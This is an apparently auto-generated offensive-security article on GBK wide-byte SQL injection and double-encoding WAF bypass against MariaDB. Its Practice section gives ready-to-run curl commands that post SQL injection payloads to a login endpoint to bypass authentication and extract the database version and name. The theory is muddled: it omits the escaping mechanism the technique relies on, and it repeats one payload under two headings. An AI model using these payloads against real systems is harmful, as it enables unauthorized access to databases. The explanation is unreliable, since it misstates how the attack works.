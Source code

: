 ```yaml
---
title: 'Wide Byte Injection GBK: Bypass WAFs in MariaDB'
description: Explore Wide Byte Injection using GBK encoding to exploit vulnerabilities
  and bypass WAFs in MariaDB applications.
keywords:
- Wide Byte Injection
- GBK encoding
- MariaDB
- WAF bypass
- SQL injection
- charset trick
- double encoding
---
```


# Wide Byte Injection (GBK)

## Context

This article explains how to exploit Wide Byte Injection in MariaDB, using GBK encoding to bypass Web Application Firewalls (WAFs). The reader is assumed to have knowledge of character encoding, SQL query structures, web application firewalls, and MariaDB WAF bypass techniques.

## Theory

### GBK Character Encoding

GBK is a character encoding specifically designed for Simplified Chinese. It is an extension of the basic GB2312 character set, enabling Chinese characters to be represented. Unlike single-byte character encodings typical in Western languages, GBK uses a variable-length encoding scheme, which allows for both single and double-byte characters. This dual nature can be leveraged in SQL injection attacks by introducing injected data that may alter SQL logic.

### Wide Byte Injection Mechanism

Wide Byte Injection leverages the misinterpretation of multi-byte characters by an application or database system. By injecting wide byte characters, an attacker can alter SQL query logic and bypass security mechanisms. The technique exploits vulnerabilities where applications or databases incorrectly interpret character lengths, potentially bypassing filters and protections meant to sanitize input.

### Charset Trick Exploitation

Charset trick exploitation involves manipulating the character encoding settings of an application or database. By doing so, attackers can introduce malicious input that remains undetected by common filtering mechanisms. This is particularly effective against WAFs that rely on specific character encodings to discern potential threats. Encoding discrepancies can be harnessed to bypass input validation controls.

### Double Encoding Technique

The Double Encoding technique encodes input data multiple times to evade detection by security tools. This method leverages the flawed handling of encoded inputs by applications or databases, allowing malicious payloads to pass through filters unhindered. By submitting double-encoded data, attackers can obscure the true nature of the input until it is executed by the target system.

### 0xbf27 Bypass Methodology

This bypass method exploits the GBK encoding of the 0xbf27 sequence. In GBK, 0xbf is recognized as a valid lead byte. Injecting the 0xbf27 sequence can effectively manipulate the SQL query execution. This technique is potent when seeking to introduce SQL logic that can alter the behavior of a database query to either extract sensitive information or bypass authentication mechanisms.

## Practice

### Wide Byte Injection using GBK Encoding

- Use the following command to inject a wide byte character for SQL manipulation:
  
  ```bash
  curl -X POST -d "username=admin&password=1234%bf%27 OR '1'='1" http://target.com/login
  ```

  This command injects a wide byte character and alters the SQL query logic, bypassing authentication.

- To use the UNION SELECT method to extract database version information:
  
  ```bash
  curl -X POST -d "username=admin&password=1234%bf%27 UNION SELECT null,version()-- " http://target.com/login
  ```

  This technique attempts to gather the database version by manipulating the SQL statement.

### Double Encoding for WAF Evasion

- For WAF evasion using double encoding, execute the following command:

  ```bash
  curl -X POST -d "username=admin&password=%25bf%2527 OR '1'='1" http://target.com/login
  ```

  This adds a layer of encoding to bypass firewall detection routines.

- Use the following to double encode UNION SELECT payload:

  ```bash
  curl -X POST -d "username=admin&password=%25bf%2527 UNION SELECT null,@@version-- " http://target.com/login
  ```

  This approach aims to extract version details by fooling the WAF.

### 0xbf27 Injection for SQL Manipulation

- Inject 0xbf27 directly to manipulate SQL query execution:

  ```bash
  curl -X POST -d "username=admin&password=1234%bf%27 OR '1'='1" http://target.com/login
  ```

  This changes how the SQL query is handled to bypass the login process.

- To extract the current database using 0xbf27 injection, use:

  ```bash
  curl -X POST -d "username=admin&password=1234%bf%27 UNION SELECT null,database()-- " http://target.com/login
  ```

  This attempts to display the current database name by altering the SQL logic.

## Tools

- **curl**